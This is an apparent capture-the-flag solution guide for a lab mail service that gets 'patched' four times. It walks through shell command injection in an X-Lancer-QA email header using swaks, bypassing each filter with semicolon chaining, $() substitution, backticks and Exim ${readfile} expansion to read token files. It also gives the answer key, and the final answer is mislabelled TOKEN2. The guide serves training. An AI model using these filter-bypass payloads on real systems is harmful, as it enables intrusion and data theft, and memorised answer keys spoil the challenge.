









# Loud and Clear

This solution guide provides challengers with a walkthrough of Lancer's patch validation cycle.

## Prerequisites & Preparation
This challenge only requires a protocol writing tool (e.g. netcat, swaks) to complete.

## Overview
The objective of this challenge is to help Lancer's remediation team confirm the effectiveness of their patching efforts by trying to re-exploit the target vulnerability and report back your result. These are your objectives:

* Detect the vulnerability in the service on each mail service port (in Description).
* Determine the effectiveness of each "patch" through attempting to exploit subsequent versions of the project.
* Successful exploitation of each service yields a `token` which also signals to the development team that there is more work to do.

This document describes the intended solve path for each patch level.

## Payload Template

💡 We will come to find  that this will be our template to deliver payloads for each patch we issue. Keep this handy:

```bash
swaks --server staging.lancer.pccc --port 2525 --to audit@staging.lancer.pccc --from tester@demo.local --header "X-Lancer-QA: <PAYLOAD>" --data "test"
```

---
## Question 1

***Switch the console to Patch 1 and extract TOKEN1.***

### Initiating the patch

To install the first patch for testing, we can navigate to the mail server instance by using the following command:

```bash
nc -vv staging.lancer.pccc 31337
```

This will open up a prompt we can use to interact with the patch management interface.

### Patch the instance

To patch the instance, run this command:

```bash
PATCH 1
```

The server will implement the first patch and the result can be seen below:



We can now access `tcp/2525` and will have access to the network security team's first attempt at patching the EXIM vulnerability. 

### Determining the vulnerable software version

Examining the output of the terminal when first accessing the mail service shows us a version of EXIM that (we will find out) is notoriously vulnerable to Remote Code Execution:



<details>
<summary>💡 What is Remote Code Execution (RCE)?</summary>
Remote Code Execution (RCE) is a vulnerability that allows an attacker to run arbitrary commands or programs on a target system from a remote location, usually without legitimate access. This typically happens when user-controlled input is passed into dangerous functionality (such as command execution, dynamic code evaluation, or unsafe deserialization) without proper validation or isolation.</summary>
</details>

<details>
<summary>💡 Why is RCE a problem?</summary>
RCE is considered one of the most severe classes of vulnerabilities because it often leads to full system compromise. An attacker can install back doors, steal secrets, pivot deeper into the network, tamper with data, or completely take over the host. In real-world breaches, a single RCE frequently becomes the initial foothold that turns a minor bug into a total infrastructure breach.
</details>

### Exploit Research Results

Researching this version does not yield direct vulnerabilities however, EXIM has been notoriously vulnerable to injection based vulnerabilities especially in mail based fields (RCPT TO, etc). The story not being told here is the fact that just because `traditional` mechanisms for exploiting this software framework are not present doesn't mean it's `custom implementation` is immune to this principle of exploitation. Let's interact with the server and begin exploit development.

### Exploit Development

The `patch notes` for this (disclosed at the time of applying the patch via tcp/31337) state that 'echo' is still an issue.

We can use the tool `swaks` to simplify the mail writing and (eventually) payload generation process.

Patch 1 runs an unsafe shell echo without quoting, so `;` command chaining works. Here's an example of how this can be exploited:

```text
;cat /opt/lancer/tokens/token1.txt;
```

This, when interpreted by the server, will read `/opt/lancer/tokens/token1.txt` and disclose our first token once the email is processed by the server.

<details>
<summary>💡 Payload Deployment and Pitfalls</summary>
Let's use `swaks` now to send this message:

`swaks --server staging.lancer.pccc --port 2525 --to tester@staging.lancer.pccc --from tester@tester.com --data ";cat /opt/lancer/tokens/token1.txt;"`

Based on the result of this action, we can deduce that this is not enough to extract the token


</details>

### A New Hope

We need to see what the server expects **before** issuing our payload and this methodology will follow us throughout the rest of the engagement. We were not using the correct email addresses for the from and to fields. In previous development, we forgot to use the requested `X-Lancer-QA` header. Since this is another field to explore and it is meant for `our payloads` to be inserted into, this may inadvertently be the missing piece we need. Additionally, there was mention of a `LIST` of users of which only one that the (now vulnerable) server will respond to accordingly. We can get this list by navigating to the Patch Console and typing LIST:

Let's observe the LIST function:

```bash
nc -vv staging.lancer.pccc 31337
```

Here's the result:



Use the `LIST` command and place all the email addresses in `list.txt`. You can use your preferred editor to place it in a file and save it in the current directory.

### Final Payload

Let's create a `for` loop to find the approved email address with our payload template:

```bash
for i in $(cat list.txt); do swaks --server staging.lancer.pccc --port 2525  --to $i --from tester@demo.local  --header "X-Lancer-QA: ;cat /opt/lancer/tokens/token1.txt;"  --data "test" >> results.txt; done
```

Running the following command can verify that the file was made:

```bash
ls | grep results.txt
results.txt
```

We then use grep to look for "PCCC{" as this is part of the `token description` given to us in the beginning of this engagement.

```bash
cat results.txt | grep -ni "PCCC{"
```

The result is:



We now know the token is present on line 208 of the results.txt file. Let's further investigate this.

### Solution

NOTE: For ease of validation, here is the final payload (without the need for bruteforcing):

```bash
swaks --server staging.lancer.pccc --port 2525 --to audit@staging.lancer.pccc --from tester@demo.local --header "X-Lancer-QA: ;cat /opt/lancer/tokens/token1.txt;" --data "test"
```

### Finding out who to send to (audit@staging.lancer.pccc)

We have the token but we still need to know which `email we're supposed to send to` to get tied to the right instance. We can scan our `results.txt` file with our preferred viewer (less, vim, etc) to see the body of the email tied to this token:



💡 We find that `audit@staging.lancer.pccc` was the emailed recipient that triggered our execution of the payload on the right instance. We'll need this going forward.

## Answer

The answer to question 1 is the value of TOKEN1.

## Question 2

***Switch the console to Patch 2 and extract TOKEN2.***

### Initiating the patch

To install the second patch for testing, we can navigate to the mail server instance by using the following command:

```bash
nc -vv staging.lancer.pccc 31337
```

This will open up a prompt we can use to interact with the patch management interface.

### Patch the instance

To patch the instance, run this command:

```bash
PATCH 2
```

### Patch Notes

The notes reveal this:

```text
P2 — Basic metacharacter stripping + double-quoting.
```

This means that Patch 2 strips `;`, `&`, `|` and then double-quotes the string. Command substitution still works via `$()` however, which is another way to call commands in the Linux Operating System.

### Payload

As a result, our payload will be the following:

```text
$(cat /opt/lancer/tokens/token2.txt)
```

Now we insert it into our swaks statement:

```bash
swaks --server staging.lancer.pccc --port 2525 --to audit@staging.lancer.pccc --from tester@demo.local --header "X-Lancer-QA: \$(cat /opt/lancer/tokens/token2.txt)" --data "test"
```

💡NOTE: Escaping the `$` prevents *your* shell from expanding it before `swaks` sends it.

### Execution

Once executed, we get the following result:



## Answer

The answer to this question is the value of TOKEN2.

## Question 3

***Switch the console to Patch 3 and extract TOKEN3.***

### Initiating the patch

To install the third patch for testing, we can navigate to the mail server instance by using the following command:

```bash
nc -vv staging.lancer.pccc 31337
```

This will open up a prompt we can use to interact with the patch management interface.

### Patch the instance

To patch the instance, run this command:

```bash
PATCH 3
```

### Patch Notes

The notes reveal this:

```text
P3 — Extended stripping set.
```

`Fuzzing` the application or "generating mass amounts of traffic to determine what 'sticks' and what doesn't could be viable here however, at a fundamental level we're looking for a new way to execute commands in traditional UNIX/Linux based operating systems.

In Patch 3, the software blocks `$()` by stripping `$`, `(`, `)` but it forgets **backticks**. Backtick substitution still executes inside double quotes.

### Payload

As a result, our payload will be the following:

```text
`cat /opt/lancer/tokens/token3.txt`
```

Now we insert it into our swaks statement:

```bash
swaks --server staging.lancer.pccc --port 2525 --to audit@staging.lancer.pccc --from tester@demo.local --header "X-Lancer-QA: \`cat /opt/lancer/tokens/token3.txt\`" --data "test"
```

### Execution

Once executed, we get the following result:



## Answer

The answer to this question is the value of TOKEN3.

## Question 4

***Switch the console to Patch 4 and extract TOKEN4.***

### Initiating the patch

To install the fourth patch for testing, we can navigate to the mail server instance by using the following command:

```bash
nc -vv staging.lancer.pccc 31337
```

This will open up a prompt we can use to interact with the patch management interface.

### Patch the instance

To patch the instance, run this command:

```bash
PATCH 4
```

### Patch Notes

The notes reveal this:

```text
P4 — Migrated to Exim macro expander for 'safe' templating
```

Patch 4 migrates to Exim’s macro expander (`exim4 -be`). It blocks obvious `${run...}` style primitives but still allows file reads via `${readfile{...}}`.

### Payload

As a result, our payload will be the following:

```text
${readfile{/opt/lancer/tokens/token4.txt}}
```

Now we insert it into our swaks statement:

```bash
swaks --server staging.lancer.pccc --port 2525 --to audit@staging.lancer.pccc --from tester@demo.local --header "X-Lancer-QA: \${readfile{/opt/lancer/tokens/token4.txt}}" --data "test"
```

### Execution

Once executed, we get the following result:



## Answer

The answer to this question is the value of TOKEN2.

**This concludes this solution guide**